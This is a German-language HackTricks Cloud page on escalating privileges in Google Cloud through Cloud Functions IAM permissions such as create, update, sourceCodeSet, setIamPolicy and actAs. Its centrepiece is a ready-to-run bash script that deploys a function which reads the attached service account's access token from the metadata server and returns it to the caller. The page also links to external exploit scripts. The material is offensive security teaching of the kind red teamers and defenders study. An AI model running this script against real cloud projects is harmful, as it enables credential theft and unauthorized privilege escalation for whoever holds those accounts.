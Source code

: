 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Mehr Informationen über Cloud Functions:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Ein Angreifer mit diesen Berechtigungen kann **eine neue Cloud-Funktion mit beliebigem (bösartigem) Code erstellen und ihr ein Dienstkonto zuweisen**. Dann kann er das Dienstkonto-Token aus den Metadaten leaken, um die Berechtigungen zu eskalieren.\
Einige Berechtigungen zum Auslösen der Funktion könnten erforderlich sein.

Exploit-Skripte für diese Methode finden Sie [hier](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) und [hier](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py) und die vorgefertigte .zip-Datei finden Sie [hier](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions).

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Ein Angreifer mit diesen Berechtigungen kann **den Code einer Funktion ändern und sogar das angehängte Dienstkonto ändern**, um das Token zu exfiltrieren.

{% hint style="danger" %}
Um Cloud-Funktionen bereitzustellen, benötigen Sie auch actAs-Berechtigungen über das Standard-Compute-Dienstkonto oder über das Dienstkonto, das zum Erstellen des Images verwendet wird.
{% endhint %}

Einige zusätzliche Berechtigungen wie die `.call`-Berechtigung für Version 1 von Cloudfunctions oder die Rolle `role/run.invoker`, um die Funktion auszulösen, könnten erforderlich sein.
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# If you don't have permissions to change the IAM policy, the "--allow-unauthenticated" will just fail and do nothing

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
Das Exploit-Skript für diese Methode kann [hier](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py) gefunden werden.

### `cloudfunctions.functions.sourceCodeSet`

Mit dieser Berechtigung können Sie eine **signierte URL erhalten, um eine Datei in einen Funktionsbucket hochzuladen (aber der Code der Funktion wird nicht geändert, Sie müssen ihn weiterhin aktualisieren)**

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

Nicht wirklich sicher, wie nützlich nur diese Berechtigung aus der Perspektive eines Angreifers ist, aber gut zu wissen.

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

Gib dir eine der vorherigen **`.update`** oder **`.create`** Berechtigungen, um zu eskalieren.

### `cloudfunctions.functions.update`

Nur mit **`cloudfunctions`** Berechtigungen, ohne **`iam.serviceAccounts.actAs`** kannst du **die Funktion nicht aktualisieren, ALSO IST DAS KEINE GÜLTIGE PRIVESC.**

### Bucket Schreibberechtigungen

Du könntest denken, dass ein Angreifer mit **Schreibberechtigungen über den Bucket**, in dem der Cloud Functions Code gespeichert ist, in der Lage sein wird, den **Code zu ändern, indem er** die `function_code.zip` überschreibt und dann die Funktion **beliebigen** Code ausführt.

{% hint style="success" %}
**Das ist jedoch nicht wahr, das bloße Überschreiben des Codes im Bucket ändert nicht den Code, der ausgeführt wird.**
{% endhint %}

## Referenzen

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
